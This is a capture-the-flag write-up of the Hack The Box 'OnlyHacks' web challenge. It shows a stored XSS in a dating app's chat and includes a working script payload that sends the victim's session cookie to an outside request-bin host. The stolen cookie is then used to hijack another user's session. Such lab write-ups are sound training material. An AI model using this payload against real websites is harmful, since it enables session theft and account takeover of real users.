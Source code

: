 ```yaml
---
title: OnlyHacks HTB Challenge (English)
image: https://cdn.invicti.com/app/uploads/2022/06/28121118/session-hijacking-768x403.webp
description: Challenge OnlyHacks HTB [Difuculty very easy]
categories: [Challenge,HTB]
tags: [web,very easy]
---
```



## Introduction

N/A


### Machine Description

- Name: OnlyHacks
- Goal: Get the flag
- Difficulty: very easy
- Operating System: N/A
- link: [OnlyHacks](https://app.hackthebox.com/challenges/860)

  

### PDF Link
- PDF: [Link to PDF](https://github.com/juanbelin/Writeups-CTFs-Challenges/blob/main/HTB/Challenges/Challenge%20OnlyHacks.pdf)


## Explotation

We have this page, apparently a date-app web. We can't do nothing here until we register.

![](/assets/img/Anexos/Pasted%20image%2020250403075649.png)


![](/assets/img/Anexos/Pasted%20image%2020250403075958.png)

Afert we registered. We have a message section where we can chat with someone else.

![](/assets/img/Anexos/Pasted%20image%2020250403080620.png)

After a match, I'm currently chating with a beautiful girl. Let's try fall in love her with an **XSS**

![](/assets/img/Anexos/Pasted%20image%2020250403080718.png)

Works. Now I'm going to hijack her cookie session:

![](/assets/img/Anexos/Pasted%20image%2020250403080730.png)

> Since we're not using any vpn to stay in the same Web's network we have to make the explotation via Internet, for that we can use this web: http://requestbin.whapi.cloud/17c5rx31

```html
<script>
	var req = new XMLHttpRequest();
	req.open('GET', 'http://requestbin.whapi.cloud/xxxxxxxx/?cookie=' + document.cookie);
	req.send();
</script>
```

I send this payload and wait.




![](/assets/img/Anexos/Pasted%20image%2020250403082323.png)

Then I receive the petition. 

![](/assets/img/Anexos/Pasted%20image%2020250403083128.png)

Finally we just change the cookie using **dev tools** and we can see that Reneta has been chating with others boys. We get the flag.

![](/assets/img/Anexos/Pasted%20image%2020250403083054.png)

![](/assets/img/Anexos/Pasted%20image%2020250403083153.png)